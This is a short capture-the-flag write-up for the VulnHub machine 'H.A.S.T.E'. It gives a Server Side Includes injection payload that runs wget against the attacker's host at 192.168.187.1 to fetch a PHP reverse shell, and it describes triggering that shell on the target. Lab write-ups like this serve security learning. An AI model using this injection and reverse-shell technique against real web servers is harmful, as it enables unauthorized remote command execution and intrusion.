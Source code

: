 use explot : 


	<!--#EXEC cmd="wget http://192.168.187.1/lol.php" -->


![alt text](https://github.com/s1l3xz/some/blob/master/vuln_hub/H.A.S.T.E/expl.png)

where lol.php is a reverse shell;

activate rev shell by opening http://192.168.187.1/lol.php in browser, get reverse shell:

the machine is ubuntu 16.04 LTS , authour of challenge did not make a goal to root machine.
so challenge is finished.


![alt text](https://github.com/s1l3xz/some/blob/master/vuln_hub/H.A.S.T.E/shell.png)
